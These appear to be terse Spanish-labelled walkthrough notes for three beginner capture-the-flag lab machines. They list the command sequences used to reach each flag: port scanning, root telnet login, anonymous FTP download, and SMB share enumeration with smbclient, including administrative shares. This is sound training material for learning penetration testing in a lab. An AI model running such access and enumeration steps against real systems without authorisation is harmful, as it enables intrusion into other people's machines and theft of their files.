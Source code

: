 Maullido
ping 10.129.175.101
nmap -sC 10.129.175.101
telnet -l root 10.129.175.101
ls
cat flag.txt

Adular
nmap -sC 10.129.173.229
ftp -?
ftp 10.129.73.229
get flag.txt
exit o bye
cat flag.txt

Baile
nmap -sV
sudo apt-get install smbclient
smbclient -L 10.129.246.26
smbclient \\\\10.129.246.26\\ADMIN$
smbclient \\\\10.129.246.26\\C$
smbclient \\\\10.129.246.26\\WorkShares
ls
cd Amy.j
ls
get worknotes.txt
cd ..
cd James.P
ls
get flag.txt
exit
cat worknotes.txt
cat flag.txt